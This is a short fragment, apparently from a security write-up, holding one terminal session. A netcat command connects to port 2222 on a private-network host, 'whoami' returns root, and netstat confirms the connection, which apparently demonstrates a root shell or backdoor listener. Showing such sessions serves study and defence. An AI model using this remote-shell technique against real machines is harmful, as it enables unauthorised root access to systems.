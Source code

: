 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">~ nc -vvv 192.168.200.13 2222
  Connection to 192.168.200.13 port 2222 [tcp/search-agent] succeeded!
  whoami root 
  netstat -antp | grep 2222 
  tcp 0 0 192.168.200.13:50914 192.168.200.4:2222 ESTABLISHED 812/s
</pre>

